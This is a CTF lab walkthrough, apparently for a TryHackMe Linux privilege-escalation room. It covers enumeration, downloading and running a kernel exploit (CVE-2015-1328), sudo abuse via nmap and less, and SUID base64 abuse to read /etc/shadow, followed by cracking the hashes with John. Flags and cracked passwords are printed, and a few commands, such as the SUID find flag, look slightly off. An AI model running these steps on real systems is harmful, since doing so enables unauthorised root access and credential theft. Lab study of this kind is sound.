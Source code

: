 # Linux Privilege Escalation
Learn the fundamentals of Linux privilege escalation. From enumeration to exploitation, get hands-on with over 8 different privilege escalation techniques.
## Enumeration
what is the hostname of the target system
```
$ hostname
$ wade7363
```
What is the linux kernel version of the target system
```
$ uname -r
$ 3.13.0.24-generic
```
What Linux is this
```
$ cat /etc/os-release
NAME = "Ubuntu Linux"
```
What version of the Python Language is installed on the system
```
$ python --version
2.7.6
```
What vulnerability seems to affect the kernel of the target system? (Enter CVE number)

we can search the CVE number on databases like exploit-db
```
CVE-2015-1328
```
## Privilege escalation: kernel exploits
On local machine: 
http.server is being used because only machines within the tryhackme network can be used with `wget`
```
$ wget https://www.exploit-db.com/download/37292 > exploit.c && mv exploit.c /tmp
$ python -m http.server 12000
$ ip addr
(copy tun0 IP)
```
On remote machine:
```
$ wget http://HOST_IP:12000 
$ gcc exploit.c && ./a.out
```
What is the content of the flag1.txt?
```
THM-28392872729920
```
## Privilege escalation: sudo
How many programs can the user "karen" run on the target system with sudo rights?
```
$ sudo -l
```
Answer: 3

What is the content of the flag2.txt?
```
$ cat /home/ubuntu/flag2.txt
THM-402028394
```
How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

we will find this in here: https://gtfobins.github.io/gtfobins/nmap/
```
$ sudo nmap --interactive
```
what is the hash of frank's password?
`less` has root permisssions
```
$ sudo less /etc/shadow
$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLH
```
## Pirivlege escalation: SUID
Finding out packages with SUID set
```
$ find / -type f -perm -0400 2> /dev/null
```
we can use base64 out of the list 
```
$ base64 /etc/shadow | base64 --decode
$ base64 /etc/passwd | base64 --decode
```
+ Copy down the outputs into files `passwd.txt` and `shadow.txt` 
+ Use the `unshadow` package to combine both
+ Use `John the ripper`
```
$ unshadow passwd.txt shadow.txt > passwords.txt
$ john passwords.txt
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
test123          (gerryconway)
Password1        (karen)
Password1        (user2)
```
+ Which user shares the name of a great comic book writer?
gerryconway
+ What is the password of user2?
Password1   
+ What is the content of the flag3.txt file?
```
$ ssh user2@MACHINE_IP
$ cd /home/Ubuntu
$ base64 flag3.txt | base64 --decode
```
